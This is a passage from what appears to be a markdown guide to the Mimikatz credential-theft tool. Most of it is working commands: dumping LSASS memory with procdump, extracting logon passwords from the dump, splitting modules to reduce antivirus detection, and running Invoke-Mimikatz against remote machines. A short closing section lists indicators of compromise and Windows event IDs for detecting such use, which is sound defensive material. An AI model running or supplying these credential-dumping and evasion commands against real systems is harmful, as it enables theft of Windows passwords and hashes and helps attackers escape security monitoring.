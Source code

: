 ## Advanced Techniques

### Memory Dump Analysis
```cmd
# Create LSASS memory dump (alternative to live extraction)
# Using Task Manager, ProcDump, or other tools
procdump.exe -ma lsass.exe lsass.dmp

# Analyze dump with Mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

### Evasion Techniques
```cmd
# Use Mimikatz modules individually to reduce AV detection
# Instead of full sekurlsa::logonpasswords, use specific modules:

mimikatz # sekurlsa::msv     # Only MSV credentials
mimikatz # sekurlsa::ssp     # Only SSP credentials  
mimikatz # sekurlsa::livessp # Only Live SSP credentials
```

### Remote Mimikatz Execution
```powershell
# PowerShell wrapper for remote Mimikatz execution
# Invoke-Mimikatz.ps1 (part of PowerSploit)
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" exit'

# Execute on remote systems
Invoke-Mimikatz -ComputerName Server01 -Command '"sekurlsa::logonpasswords"'
```

## Detection and Defense

### Detecting Mimikatz Usage
```bash
# Common IOCs (Indicators of Compromise):
# 1. Process name: mimikatz.exe
# 2. Command line arguments: privilege::debug, sekurlsa::logonpasswords
# 3. File hashes of known Mimikatz versions
# 4. Memory signatures of Mimikatz modules

# Windows Event Logs to monitor:
# - Event ID 4688: Process creation
# - Event ID 4673: Sensitive privilege use
# - Event ID 4624: Account logon
# - Event ID 10: Process access (Sysmon)
```
